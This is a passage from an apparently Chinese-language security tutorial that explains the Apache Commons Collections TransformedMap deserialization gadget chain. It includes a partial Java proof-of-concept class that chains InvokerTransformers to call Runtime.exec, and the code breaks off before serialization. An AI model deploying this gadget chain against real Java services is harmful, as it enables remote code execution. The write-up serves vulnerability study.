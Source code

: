 需要关心的是valueTransformer是否可控，对应的构造函数：

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}

protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}
```

上述构造函数表明可以控制valueTransformer的值。

ps：这里除了可以利用checkSetValue也可以通过put方法进行触发，这里就不再展开。

再次通过org.apache.commons.collections.map.AbstractInputCheckedMapDecorator.MapEntry#setValue即可实现触发执行checkSetValue

```java
public Object setValue(Object value) {
    value = this.parent.checkSetValue(value);
    return super.entry.setValue(value);
}
```

恰巧TransformedMap实现了该接口，this.parent即为TransformedMap本身

进行到这里得到的利用链如下：

```
TransformedMap.SetValue -> TransformedMap.checkSetValue -> ChainedTransformer.transform -> Transformer.transform -> Transformer.transform -> ...
```

ps: 上述Transformer代表InvokerTransformer、ConstantTransformer, 通过链的形式依次调用所有Transformer

按照思路需要再寻找可以触发TransformedMap.SetValue的点，此时就对应上了上节介绍的AnnotationInvocationHandler，通过位置2即可触发整个利用链，构造的payload脚本如下：

```java
import java.io.*;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import java.lang.reflect.Constructor;
import java.lang.annotation.Retention;

public class deserialPoc {
    public static Object Reverse_Payload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "open /Applications/Atom.app/" }) };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "value");
        Map outmap = TransformedMap.decorate(innermap, null, transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
```